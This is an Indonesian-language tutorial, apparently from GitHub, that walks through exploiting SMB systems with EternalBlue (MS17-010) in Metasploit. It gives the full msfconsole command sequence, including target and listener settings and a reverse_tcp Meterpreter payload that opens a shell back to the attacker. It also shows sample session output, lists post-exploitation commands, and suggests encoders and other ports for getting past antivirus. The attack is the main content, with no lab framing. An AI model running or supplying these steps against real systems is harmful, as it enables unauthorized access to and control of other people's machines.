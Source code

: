 # Menjalankan Eksploitasi dengan Metasploit Framework

## A. Apa Itu Eksploitasi?

Eksploitasi adalah proses menyerang dan memanfaatkan kerentanan pada sistem target untuk mendapatkan akses tidak sah, baik melalui `shell`, `akses file`, atau `kontrol penuh`.

Dalam Metasploit Framework, eksploitasi dijalankan melalui modul `exploit` + `payload`, misalnya:

- **Exploit**: `exploit/windows/smb/ms17_010_eternalblue`
- **Payload**: `windows/meterpreter/reverse_tcp`

## B. Proses Dasar Eksploitasi

Langkah-langkah umum untuk menjalankan eksploitasi di Metasploit Framework:

1. Pilih dan muat modul exploit
2. Tentukan target (RHOST, RPORT)
3. Pilih payload
4. Konfigurasi payload (LHOST, LPORT, dll)
5. Jalankan exploit
6. Kelola sesi yang terbuka (jika berhasil)

## C. Contoh: Eksploitasi SMB dengan EternalBlue (MS17-010)

### Langkah 1 - Buka MSFConsole

```
msfconsole
```

Tunggu sampai muncul prompt seperti ini:

```
msf6 >
```

### Langkah 2 - Cari Exploit yang Sesuai

```
search eternalblue
```

**Contoh hasil:**

```
exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 3 - Gunakan Exploit

```
use exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 4 - Lihat Opsi Konfigurasi

```
show options
```

### Langkah 5 - Setting Target dan Payload

```
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
```

### Langkah 6 - Jalankan Exploit

```
exploit
```

Jika berhasil, kamu akan mendapatkan sesi Meterpreter.

### Contoh Output Berhasil:

```
[*] Sending stage (203846 bytes) to 192.168.1.10
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

meterpreter > 
```

Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

Melihat informasi sistem target:

```
sysinfo
```

Menampilkan User ID (UID):

```
getuid
```

Membuka command shell (cmd.exe) dari mesin korban:

```
shell
```

## D. Troubleshooting Umum

| Masalah | Solusi |
|:--:|:--:|
| Tidak ada sesi yang terbuka	| Cek firewall, antivirus, atau salah setting RHOST/LHOST |
| Payload tidak terkirim | Gunakan encoder atau coba port lain |
| exploit stuck | Gunakan `set VERBOSE true` untuk debug |

## E. Kesimpulan

Eksploitasi di Metasploit Framework memerlukan:

1. Pemahaman modul dan payload
2. Konfigurasi parameter yang akurat
3. Kesabaran dan analisa ketika exploit gagal

> Dengan latihan dan memahami pola kerja eksploitasi, kamu bisa mengeksekusi serangan yang lebih kompleks dan efisien.
